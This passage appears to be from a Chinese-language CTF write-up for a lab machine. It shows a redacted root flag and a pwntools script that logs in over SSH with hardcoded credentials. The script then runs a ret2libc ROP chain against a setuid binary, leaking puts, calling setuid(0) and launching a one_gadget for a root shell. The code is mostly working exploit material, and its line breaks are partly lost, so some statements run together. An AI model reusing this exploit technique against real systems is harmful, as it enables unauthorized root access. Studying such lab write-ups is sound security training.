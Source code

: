 ![](img/65ebe1fef253d250ea2894963e2061a6.png)

正在读取 root.txt:

```
# $ cat root.txt
**1cc73a448021ea...**
```

最终漏洞代码:

```
from pwn import *host = "10.10.10.139"
user="margo"
password="iamgod$08"s=ssh(user=user,host=host,password=password)#context(terminal=['tmux', 'new-window'])
p = s.process('/usr/bin/garbage')
#p = gdb.debug('./garbage', 'b main')
context(os="linux", arch="amd64")
#context.log_level = 'DEBUG'#Stage 1 - Memory Leak
log.success("Running 1st stage:")
plt_main = p64(0x401619)
plt_put = p64(0x401050)
got_put = p64(0x404028)
pop_rdi = p64(0x40179b)
junk = "A" *136payload = junk + pop_rdi + got_put + plt_put + plt_main
p.sendline(payload)p.recvline()
p.recvline()leak_puts= p.recvline().strip().ljust(8,"\x00")
log.success("Length of the leaked puts = " + str(len(leak_puts)))
log.success("Leaked puts@LIBC " + str(leak_puts))
leak_puts = u64(leak_puts)#Stage 2
pop_rdi = p64(0x40179b)
libc_put = 0x0809c0
libc_sys = 0x04f440
libc_sh =  0x1b3e9a
libc_setuid = 0x0e5970offset = leak_puts - libc_put
sys = p64(offset + libc_sys)
sh = p64(offset + libc_sh)
setuid = p64(offset + libc_setuid)
one_gadget = p64(offset + 0x4f2c5) 
payload = junk + pop_rdi + p64(0x0) + setuid + plt_main
p.sendline(payload)#Stage 3
log.success("Elevate privilege success")
log.success("Check if you have a shell!")payload = junk + one_gadget
```
